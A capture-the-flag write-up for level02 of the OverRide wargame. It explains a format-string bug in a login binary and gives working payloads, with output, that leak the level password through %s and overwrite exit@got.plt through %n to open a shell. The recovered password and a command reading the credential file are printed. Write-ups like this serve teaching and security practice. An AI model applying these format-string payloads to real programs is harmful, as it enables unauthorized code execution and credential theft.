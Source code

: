 # level02
## Program behaviour

1. Read the `content` of `/home/users/level03/.pass`
2. Ask for `username`
3. Ask for `password`
4. Test `password` equal to `content`
    - if equal, run `/bin/sh`
    - if not, `printf(username); puts(" does not have access !"); exit(1)`

## Vulnerability

The `username` is directly passed as format string to `printf`.
This is vunerable to `printf` attacks.

## Exploitation

### Method 1: Dump the `content` using `%s`

1. Print pointers with `username` as format string
    - `password` begins at `%8$p`
```sh
level02@OverRide:~$ (python -c 'print "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p\n" + "\x40\xe5\xff\xff\xff\x7f"') | ~/level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4d0 (nil) 0x40 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 0x7fffffffe540 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) does not have access!
```

2. Use the address of `content` as a string with `%s`
```sh
level02@OverRide:~$ (python -c 'print "%8$s\n" + "\x40\xe5\xff\xff\xff\x7f"') | ~/level02 ===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H does not have access!
```

### Method 2: Overwrite `exit@got.plt`

1. Find the required addresses
    - `0x601228`: address to overwrite
    - `0x400a85`: address to jump to (`4196997` in decimal)
```gdb
(gdb) disas 0x400710
Dump of assembler code for function exit@plt:
   0x0000000000400710 <+0>:	jmpq   *0x200b12(%rip)      # 0x601228 <exit@got.plt>
   0x0000000000400716 <+6>:	pushq  $0xa
   0x000000000040071b <+11>:	jmpq   0x400660
End of assembler dump.
(gdb) x/10i main+625
   0x400a85 <main+625>:	mov    $0x400d32,%edi           # Address to jump to
   0x400a8a <main+630>:	callq  0x4006b0 <system@plt>
   0x400a8f <main+635>:	mov    $0x0,%eax
   0x400a94 <main+640>:	leaveq 
   0x400a95 <main+641>:	retq   
   0x400a96 <main+642>:	lea    -0x70(%rbp),%rax
   0x400a9a <main+646>:	mov    %rax,%rdi
   0x400a9d <main+649>:	mov    $0x0,%eax
   0x400aa2 <main+654>:	callq  0x4006c0 <printf@plt>
   0x400aa7 <main+659>:	mov    $0x400d3a,%edi
```

2. Use `%n` to write to arbitrary locations
```sh
level02@OverRide:~$ (python -c 'print "%4196997x%8$n\n" + "\x28\x12\x60\n"'; cat) | ~/level02

*lots of spaces*

cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```